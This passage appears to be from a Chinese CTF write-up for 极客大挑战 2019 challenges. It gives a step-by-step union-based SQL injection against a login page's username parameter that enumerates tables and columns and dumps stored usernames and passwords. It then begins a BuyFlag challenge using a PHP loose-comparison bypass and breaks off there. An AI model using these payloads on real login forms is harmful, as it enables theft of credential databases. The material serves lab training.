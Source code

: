 ```
/check.php?username=1' union select 1,2,3%23&password=1
```

得到回显点位为2和3，查询当前数据库名及版本：

```
/check.php?username=1' union select 1,database(),version()%23&password=1
```

接下来查询表

```
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```

得到 `geekuser` 和 `l0ve1ysq1` 两个表


查看 `l0ve1ysq1` 表字段 

```
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

获取数据，拿到flag


```
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```


# 007_[极客大挑战 2019]BuyFlag

查看源码 发现 `pay.php`

进入 `pay.php` 发现提示要是

```
You must be a student from CUIT!!!
You must be answer the correct password!!!
```

才能获取 flag

首先查看源码，发现 `password` 是 404a (不能是404，404会被拦截)

```html
<!--
	~~~post money and password~~~
    if (isset($_POST['password'])) {
	    $password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```
